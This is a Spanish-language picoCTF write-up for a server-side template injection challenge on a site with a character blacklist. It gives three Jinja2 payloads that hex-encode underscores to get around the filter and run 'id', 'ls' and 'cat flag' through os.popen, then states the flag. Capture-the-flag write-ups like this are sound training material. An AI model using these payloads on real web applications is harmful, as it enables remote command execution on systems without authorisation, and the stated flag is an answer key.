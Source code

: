 
**Description:**
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:53483/)!

**Hints:**
1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?



**Solución 1**

```

- Analizamos que se pude enviar cosas, y caracteres en el formulario de la página principal
- Vamos pyjali ssti a traer un código de inyección:
"{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
"

- Vamos a hacer una cambio en la propiedad .popen, para lista los elementos que hay:
"{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
"

- Leemos lo que tenga el archivo flag, con cat:
"{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
"
	- Nos aparecerá la bandera luego de dar click en el OK
```


## Respuesta: **picoCTF{sst1_f1lt3r_byp4ss_7c36c7f}**

---
Referencias:
- https://www.youtube.com/watch?v=HiC8a6BjXDI
- pyjali ssti